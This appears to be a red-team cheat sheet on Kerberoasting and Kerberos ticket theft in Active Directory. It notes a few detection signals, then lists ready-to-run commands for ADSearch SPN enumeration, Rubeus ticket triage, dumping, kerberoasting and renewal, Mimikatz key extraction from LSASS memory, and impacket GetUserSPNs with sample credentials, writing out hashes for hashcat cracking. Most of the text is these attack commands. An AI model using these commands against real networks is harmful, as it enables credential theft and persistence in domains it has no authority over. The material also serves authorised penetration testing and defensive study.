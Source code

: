Hash format: hashcat 13100
 - Creates 4768 event, multiple 4768 event over short time from one user can standout.
- Windows tickets uses AES128 and 258, RC4 tickets can standout.
- Honey Tickets may be used by defenders (Dummy SPNs that is never supposed to be used).

- [ ] Enumerate for valid SPNs
- [ ] Extract tickets already stored in memory

(ADSearch) SPN enumeration
```bash
ADSearch.exe -s "(&(samAccountType=805306368)(servicePrincipalName=*)(!samAccountName=krbtgt)(!(UserAccountControl:1.2.840.113556.1.4.803:=2)))" --attributes cn,samaccountname,serviceprincipalname
```
(Rubeus) Extract ticket of currently logon session
- Rubeus extracts ticket using LSA APIs
```bash
Rubeus.exe triage
```
(Rubeus) Extract every single ticket
- Use /service and /luid to target specific service or logon session
```bash
Rubeus.exe dump /service:krbtgt /nowrap
```
(Mimikatz) Dumping tickets from LSASS memory
- Bad OPSEC because interacting with LSASS
```bash
mimikatz.exe sekurlsa::ekeys
```
(Rubeus) Kerberoasting (default john hash)
- Ask for RC4 encryption ticket
- Target an SPN with /spn:<SPN_NAME>
```bash
Rubeus.exe kerberoast /format:hashcat /simple
```
(GetUserSPNs) Kerberoasting
```bash
impacket-GetUserSPNs.py <DOMAIN>/<USERNAME>:<PASSWORD> -dc-ip <DC IP> -request 

impacket-GetUserSPNs.py medin.local/tm:Password1 -dc-ip 172.16.105.100 -request -outputfile krb.hash
```
### Persistence
(Rubeus) Obtained ticket information
```bash
Rubeus.exe describe /ticket:<TICKET>
```
(Rubeus) Renew ticket
```bash
Rubeus.exe renew /ticket:<TICKET> /nowrap
```